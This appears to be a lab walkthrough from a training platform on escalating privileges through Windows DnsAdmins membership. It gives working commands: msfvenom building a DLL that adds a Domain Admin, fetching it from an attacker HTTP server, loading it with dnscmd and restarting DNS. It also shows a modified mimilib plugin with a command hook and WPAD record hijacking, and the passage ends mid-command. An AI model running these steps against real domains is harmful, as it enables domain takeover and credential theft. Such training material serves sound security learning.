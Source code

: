 # DNS admins

Members of the [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins)
 group have access to DNS information on the network. The Windows DNS 
service supports custom plugins and can call functions from them to 
resolve name queries that are not in the scope of any locally hosted DNS
 zones. The DNS service runs as `NT AUTHORITY\SYSTEM`, so 
membership in this group could potentially be leveraged to escalate 
privileges on a Domain Controller or in a situation where a separate 
server is acting as the DNS server for the domain. It is possible to use
 the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. As detailed in this excellent [post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common):

- DNS management is performed over RPC
- [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the `dnscmd` tool from the command line
- When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
- When the DNS service is restarted, the DLL in this path will be
loaded (i.e., a network share that the Domain Controller's machine
account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

# Leveraging attack

**generating malicious DLL**

```
doshim@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

**start local server**

```
doshim@htb[/htb]$ python3 -m http.server 7777Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
```

**Download file on target**
`PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"`

**Loading DLL as Non-Privileged User**

```
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

***As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this***.

**Loading DLL as Member of DnsAdmins**

```powershell
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109
```

**Loading Custom DLL**

```
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

**After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.**

**Finding User's SID**

```
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

### Checking Permissions on DNS Service

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

```
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)
```

**starting and stopping dns service**

```
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
```

```
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
```

### Confirming Group Membership

If all goes to plan, our account will be added to the Domain Admins 
group or receive a reverse shell if our custom DLL was made to give us a
 connection back.

```
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
```

## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

Code: c

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}

```

---

## Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps),
 which by default blocks this attack. Server 2008 first introduced the 
ability to add to a global query block list on a DNS server. By default,
 Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic 
Tunnel Addressing Protocol (ISATAP) are on the global query block list. 
These protocols are quite vulnerable to hijacking, and any domain user 
can create a computer object or DNS record containing those names.

After disabling the global query block list and creating a WPAD 
record, every machine running WPAD with default settings will have its 
traffic proxied through our attack machine. We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

### Disabling the Global Query Block List

To set up this attack, we first disabled the global query block list:

DnsAdmins

```powershell
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

### Adding a WPAD Record

Next, we add a WPAD record pointing to our attack machine.

DnsAdmins

```powershell
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.
```